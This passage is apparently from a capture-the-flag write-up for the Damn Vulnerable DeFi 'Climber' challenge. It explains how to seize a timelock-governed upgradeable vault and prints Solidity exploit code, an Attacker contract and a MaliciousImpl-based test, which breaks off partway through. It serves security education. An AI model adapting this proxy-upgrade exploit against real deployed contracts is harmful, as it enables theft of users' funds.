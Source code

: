 ```javascript
p_dataElements_length_4ea5857_09 = 0x0000000000000000000000000000000000000000000000000000000000000001
p_data_bytes_2c011eb_49 = 0xf2fde38b00000000000000000000000000000000000000000000000100000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
p_data_length_82b6379_50 = 0x0000000000000000000000000000000000000000000000000000000000000064
p_newImplementation_address_27cdc9b_48 = 0x00000000000000000000000000000000000000000000000000000000aaaa0003
p_salt_bytes32_08e7bfb_12 = 0x0000000000000000000000000000000000000000000000000000000000000000
p_targets[0]_address_52be91e_06 = 0x0000000000000000000000000000000000000000000000000000000000000000
p_targets_length_c542a8b_05 = 0x0000000000000000000000000000000000000000000000000000000000000001
p_values[0]_uint256_1f68feb_08 = 0x0000000000000000000000000000000000000000000000000000000000000000
p_values_length_7d0d274_07 = 0x0000000000000000000000000000000000000000000000000000000000000001
```
Great! Now we know how to change the `vault` implementation. Just call `upgradeToAndCall()` on behalf of `timelock`. In fact, at this point the attack scenario became obvious: if we can replace the `vault` **implementation**, then we can do literally anything with its assets, including sending its tokens anywhere. Challenge solved!
## Attack implementation
**Climber.t.sol**:
```solidity
function test_climber() public checkSolvedByPlayer {
    Attacker attacker = new Attacker();
    MaliciousImpl impl = new MaliciousImpl();
    attacker.attack(timelock, ERC1967Proxy(payable(address(vault))), impl, token, recovery);
}
```
**Attacker.sol**:
```solidity
// SPDX-License-Identifier: MIT

pragma solidity =0.8.25;

import {ClimberTimelock, CallerNotTimelock, PROPOSER_ROLE, ADMIN_ROLE} from "../../src/climber/ClimberTimelock.sol";
import "./MaliciousImpl.sol";
import {DamnValuableToken} from "../../src/DamnValuableToken.sol";
import {ERC1967Proxy} from "@openzeppelin/contracts/proxy/ERC1967/ERC1967Proxy.sol";

contract Attacker {
    ClimberTimelock timelock;
    ERC1967Proxy vault;
    MaliciousImpl impl;
    DamnValuableToken token;
    address recovery;

    bool is_preload = false;

    fallback() external payable {
        bytes32 salt = hex"01";
        address[] memory targets = new address[](4);
        uint256[] memory values = new uint256[](4);
        bytes[] memory dataElements = new bytes[](4);
        targets[0] = address(timelock);
        targets[1] = address(timelock);
        targets[2] = address(this);
        targets[3] = address(vault);
        values[0] = 0;
        values[1] = 0;
        values[2] = 0;
        values[3] = 0;
```
